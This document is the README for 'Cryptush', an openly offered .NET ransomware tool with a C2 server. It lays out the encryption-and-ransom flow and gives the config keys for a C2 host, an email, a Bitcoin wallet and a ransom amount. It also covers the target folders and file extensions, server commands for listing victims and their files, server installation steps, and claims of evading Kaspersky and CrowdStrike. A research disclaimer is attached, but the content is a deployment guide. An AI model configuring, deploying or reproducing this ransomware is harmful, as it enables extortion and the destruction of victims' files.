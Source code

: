 # 
[![LinkedIn][linkedin-shield]][linkedin-url]

# Cryptush
An open-source ransomware tool written in .NET

<p align="center">
    <img src="https://i.imgur.com/zuUXyET.png">
</p>


## Disclaimer

The tool is intended for research and threat emulation purposes only. I'm not reponsible for any malicious uses of this tool.

## The Flow

    1- A symmetric AES (256bit) key is generated.

    2- Documents are collected from predefeind directories including its sub-directories.

    3- The key is encrypted with a static public RSA key and sent to the C2 server.

    4- The C2 server returns an GUID for identification and logs the details to CryptushServer.log

    5- The encryption key is then deleted from memory on the victim host and a window is presented including a decryption option and a 24 hours timer.
    

### Notes

* The ransomeware will not run in there's no communication to the C2 server. 
A reconnect attempt will be made every 30 seconds.


## Getting Started

* Edit the app.config file inside the Cryptush folder with your details:

```
    <add key="ServerIP" value="ec2-3-68-73-27.eu-central-1.compute.amazonaws.com" />
    <add key="ServerPort" value="443" />
    <add key="Email" value="yuval555@gmail.com" />
    <add key="BtcWalletAddress" value="bc1qxy2kgdygjrsqtzq2n0yrf2493p83kkfjhx0wlh" />
    <add key="BtcAmount" value="0.035" />
```    
   
* Select the folders to be encrypted in Cryptush.cs, the default is:

```
        public static string[] paths = {
            $"{desktopDir}\\test",
        };
```

* The default extensions are:

```
            var extensions = new List<string> { ".xls", ".doc", ".ppt", ".pdf", ".txt" };

```

You can change them in Cryptush/lib/Collector.cs

### Server commands

* You can view details about the encrypted victims using the "list" command (hostname, username, launch time, time left for payment, etc.).

* You can view details about the encrypted files on each victim using the "files" command.


### Installing the server on Linux

```
wget https://packages.microsoft.com/config/debian/10/packages-microsoft-prod.deb
sudo dpkg -i packages-microsoft-prod.deb
sudo apt update
sudo apt install -y dotnet-runtime-5.0
sudo dotnet CryptushServer.dll --ip=* --port=443
```

### AV Tests

* Kaspersky - PASS
* CrowdStrike - PASS


### Dependencies

* Client - .NET Framework 4.8
* Server - .NET core 5.0

<!-- MARKDOWN LINKS & IMAGES -->
<!-- https://www.markdownguide.org/basic-syntax/#reference-style-links -->
[issues-shield]: https://img.shields.io/github/issues/othneildrew/Best-README-Template.svg?style=for-the-badge
[linkedin-url]: https://www.linkedin.com/in/yuval-moravchick-4311b550/
